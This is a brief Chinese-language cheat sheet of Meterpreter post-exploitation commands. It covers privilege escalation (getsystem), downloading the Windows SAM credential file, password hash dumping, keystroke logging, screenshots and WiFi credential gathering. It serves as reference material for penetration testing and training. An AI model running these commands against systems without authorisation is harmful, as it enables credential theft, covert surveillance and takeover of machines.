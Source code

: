 ### 基础命令
```bash
# 系统信息
sysinfo

# 当前用户
getuid

# 提升权限
getsystem

# 后台会话
background

# 返回会话
sessions -i [id]

# 获取shell
shell
```

### 文件操作
```bash
# 文件浏览
ls
cd

# 上传文件
upload /path/local/file C:\\Windows\\Temp\\file.exe

# 下载文件
download C:\\Windows\\System32\\config\\SAM

# 搜索文件
search -f *.txt
```

### 信息收集
```bash
# 屏幕截图
screenshot

# 键盘记录
keyscan_start
keyscan_dump
keyscan_stop

# 获取密码哈希
hashdump

# 获取WiFi密码
run post/windows/gather/credentials/wifi
```

